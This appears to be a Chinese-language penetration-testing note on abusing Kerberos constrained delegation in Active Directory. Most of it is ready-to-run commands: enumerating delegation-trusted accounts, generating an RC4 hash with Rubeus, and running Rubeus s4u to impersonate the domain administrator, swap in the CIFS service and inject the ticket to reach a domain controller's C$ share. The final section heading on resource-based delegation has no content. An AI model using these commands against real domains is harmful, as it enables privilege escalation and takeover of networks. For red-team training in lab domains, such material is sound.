 
- 寻找约束委派的用户和服务
```go
powerpick Get-DomainComputer -TrustedToAuth
StandIn.exe --delegation
```
#### 


- 清空缓存
```go
execute-assembly /opt/Tools/lab10/rubeus.exe purge
```
#### Rubeus一步到位
![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1610250930759-7a6a05ed-d9ec-4376-8109-c51d0dea6099.png#align=left&display=inline&height=792&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1584&originWidth=1996&size=542368&status=done&style=none&width=998)
rc4这个参数,密码或者hash要自己本地提权才能获得了.是前提条件

- 生成rc4
```cpp
Rubeus.exe  hash /user:xxx /pasword:xxx /domain:xx.xx
```
这里的伪造的用户名必须是域内已经有的，比如adminstrator。
所以这里本机的这个用户是伪造成其他用户去从获取TGS。
另外:该用户的hash的也要看能不能获取
```cpp
Rubeus.exe s4u /user:<UserName> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<UserToImpersonate> /msdsspn:"<Service's SPN>" /altservice:<Optional> /ptt

demo
execute-assembly /opt/Tools/lab10/rubeus.exe s4u /impersonateuser:administrator /msdsspn:"ldap/dc" /altservice:cifs /dc:dc.ironbank.local /user:FILESERVER$ /rc4:<NTLM HASH for FILESERVER$> /ptt
```
```cpp
Rubeus.exe s4u /user:wing /rc4:xxxxxxxx /impersonateuser:administrator /msdsspn:cifs/mssql.pentestlab.com /altservice:cifs /ptt

ls \\dc\C$ #希望能成功QAQ
```




> 现在，我们可以模拟用户访问该服务！
> 

> 如果我们仅对特殊的SPN拥有委派权，该怎么办？ （例如，TIME）：
> 

> 在这种情况下，我们仍然可以滥用Kerberos的一种功能，即替代服务。 这使我们能够为其他“替代”服务而不只是我们有权获得的服务请求TGS门票。 这样一来，我们就可以利用杠杆来请求主机希望获得的任何服务的有效票证，从而使我们可以完全控制目标计算机。





### 基于资源的约束委派利用


